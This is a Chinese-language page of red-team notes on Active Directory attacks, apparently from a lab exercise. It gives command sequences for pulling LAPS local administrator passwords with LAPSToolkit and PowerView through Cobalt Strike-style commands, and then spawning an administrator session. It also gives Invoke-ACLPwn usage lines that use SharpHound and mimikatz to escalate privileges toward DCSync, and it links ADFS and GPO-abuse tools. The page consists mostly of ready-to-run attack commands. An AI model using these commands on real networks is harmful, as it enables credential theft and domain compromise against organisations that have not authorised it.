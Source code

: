 
这玩意是用来定期更换密码的.


> LAPS（Local Administrator Password Solution，本地管理员密码解决方案）是微软发布的一款用来在LDAP上存储本地管理员密码的工具。只要一切都配置正确，那么该工具使用起来将非常不错。然而，如果你没有正确地设置LDAP属性的权限，那么可能会将本地管理员凭证暴露给域内的所有用户。

```cpp
Exploting LAPS
rev2self
powershell-import /opt/Tools/lab10/LAPSToolkit.ps1
powerpick Get-LAPSComputers
powerpick Find-LAPSDelegatedGroups
make_token IRONBANK\jon.snow PASSWORD
powershell-import /opt/Tools/lab10/powerview-dev.ps1
powerpick Get-DomainObject Workstation -Properties ms-mcs-admpwd
spawnas .\administrator <password> http

C2-FrameWork/Empire/data/module_source/credentials/Get-LAPSPasswords.ps1
```


## ADFS利用


[https://www.slideshare.net/DouglasBienstock/troopers-19-i-am-ad-fs-and-so-can-you](https://www.slideshare.net/DouglasBienstock/troopers-19-i-am-ad-fs-and-so-can-you)


## 组策略利用GPO
[https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
## ACL攻击
[https://stealthbits.com/blog/attacking-active-directory-permissions-with-bloodhound/](https://stealthbits.com/blog/attacking-active-directory-permissions-with-bloodhound/)
[https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)


[https://github.com/fox-it/Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)
usage:
```cpp
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -NoDCSync
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -userAccountToPwn 'Administrator'
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -LogToFile
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -NoSecCleanup
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```
使用第一条标识了-NoDCSync（不会做DCSync的动作，只判断是否能够存在能够DCSync的权限）的命令：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1612192688086-69baae16-39b9-48ed-9ce6-e518587cefb2.png#align=left&display=inline&height=176&margin=%5Bobject%20Object%5D&name=image.png&originHeight=351&originWidth=1120&size=236700&status=done&style=none&width=560)
